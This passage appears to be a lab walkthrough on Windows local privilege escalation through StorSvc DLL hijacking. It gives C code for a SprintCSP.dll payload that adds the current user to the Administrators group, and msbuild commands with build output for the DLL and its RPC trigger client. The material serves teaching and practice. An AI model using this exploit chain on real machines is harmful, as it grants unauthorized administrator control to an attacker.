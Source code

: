 The compiled executable will be found on your desktop.

Now to compile **SprintCSP.dll**, we only need to modify the `DoStuff()` function on `C:\tools\LPE via StorSvc\SprintCSP\SprintCSP\main.c` so that it executes a command that grants us privileged access to the machine. For simplicity, we will make the DLL add our current user to the **Administrators** group. Here's the code with our replaced command:

```c
void DoStuff() {

    // Replace all this code by your payload
    STARTUPINFO si = { sizeof(STARTUPINFO) };
    PROCESS_INFORMATION pi;
    CreateProcess(L"c:\\windows\\system32\\cmd.exe",L" /C net localgroup administrators user /add",
        NULL, NULL, FALSE, NORMAL_PRIORITY_CLASS, NULL, L"C:\\Windows", &si, &pi);

    CloseHandle(pi.hProcess);
    CloseHandle(pi.hThread);

    return;
}
```

We now compile the DLL and move the result back to our desktop:

Command Prompt

```shell-session
C:\> cd C:\tools\LPE via StorSvc\SprintCSP\

C:\tools\LPE via StorSvc\SprintCSP> msbuild SprintCSP.sln
... some output ommitted ...

Build succeeded.
    6 Warning(s)
    0 Error(s)

C:\tools\LPE via StorSvc\SprintCSP> move x64\Debug\SprintCSP.dll C:\Users\user\Desktop\ 
```

We are now ready to launch the full exploit chain!

Answer the questions below

![[Pasted image 20230306161104.png]]

```
system search

//#define WIN10
//#define WIN11
#define WIN2019
//#define WIN2022

search developer command

**********************************************************************
** Visual Studio 2022 Developer Command Prompt v17.4.5
** Copyright (c) 2022 Microsoft Corporation
**********************************************************************

C:\Program Files\Microsoft Visual Studio\2022\Community>cd C:\tools\LPE via StorSvc\RpcClient\

C:\tools\LPE via StorSvc\RpcClient>msbuild RpcClient.sln
MSBuild version 17.4.1+9a89d02ff for .NET Framework
Building the projects in this solution one at a time. To enable parallel build, please add the "-m" switch.
Build started 3/6/2023 9:15:19 PM.
```